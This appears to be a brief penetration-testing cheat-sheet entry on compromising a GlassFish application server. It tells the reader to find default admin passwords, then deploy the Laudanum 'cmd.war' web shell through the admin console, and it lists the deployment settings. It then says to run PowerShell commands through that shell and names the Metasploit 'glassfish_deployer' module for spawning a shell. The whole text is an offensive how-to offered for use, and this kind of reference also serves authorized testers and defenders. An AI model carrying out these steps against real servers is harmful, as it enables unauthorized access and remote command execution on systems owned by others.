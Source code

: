 # Glass Fish
Search google for default admin username and passwords used for the version 

We can use the **Deploy an Application** functionality to deploy a WAR application.

The war file is located at **/usr/share/laudanum/jsp/cmd.war**
```
*Select the cmd.war*
*Type as Web Application*
*Context Root as cmd*
*Application Name as cmd* 
*Virtual Servers as server*
*Status enable*
*Implicit CDI enable*
```

Click OK and launch the application. 
Finally browse to the location where the application was deplpoyed and execute commands using: 
```
cmd.exe /c powershell ….
```

You can also use the metasploit module to auto check for vulnerabilities and spawn a shell.
```
use exploit/multi/http/glassfish_deployer
```
